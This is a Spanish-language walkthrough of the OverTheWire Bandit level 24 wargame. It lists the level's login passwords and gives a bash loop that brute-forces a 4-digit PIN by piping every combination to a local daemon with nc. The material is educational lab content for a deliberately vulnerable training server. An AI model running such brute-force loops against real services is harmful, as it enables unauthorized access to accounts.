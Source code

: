 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de Acceso al Nivel
- **Puerto:** 2220
##### Se usará el usuario "bandit24":
- **Usuario:** bandit24
- **Contraseña:** gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
##### Después de conseguir la contraseña:
- **Usuario:** bandit25
- **Contraseña descubierta:** iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
## Solución
```
bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i ; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

- ##### Cierre de sesión del usuario "bandit24".
```
bandit24@bandit:~$ exit
logout
Connection to bandit.labs.overthewire.org closed.
```
## Notas Adicionales
- **grep - v mensaje** - Filtra todas las líneas que no contenga el mensaje.
## Referencias
- [OverTheWire](https://overthewire.org/wargames/bandit/bandit1.html)